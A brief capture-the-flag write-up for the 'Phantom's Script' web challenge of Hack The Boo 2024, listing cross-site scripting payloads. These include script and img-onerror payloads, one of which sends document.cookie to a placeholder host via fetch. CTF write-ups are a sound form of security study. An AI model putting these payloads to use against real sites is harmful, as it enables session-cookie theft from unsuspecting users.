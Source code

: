 # Hack The Boo 2024 Write-Up

## WEB

### Phantom's Script

![image](https://github.com/user-attachments/assets/1d5b113b-039a-46ba-8470-0c8688fd03c4)

Basic XSS Payload:

`<script>alert('Boo!');</script>`

`<script>fetch('[host]')</script>`

More Diabolical Payload:

`<img src=x onerror="alert('Boo!')">`

`<img src=x onerror="fetch('[HOST]' + document.cookie)" />`

Use XSS payload `<script>fetch('[host]')</script>`

![image](https://github.com/user-attachments/assets/3bd034b8-1f32-4c04-9ebe-b96564676f02)

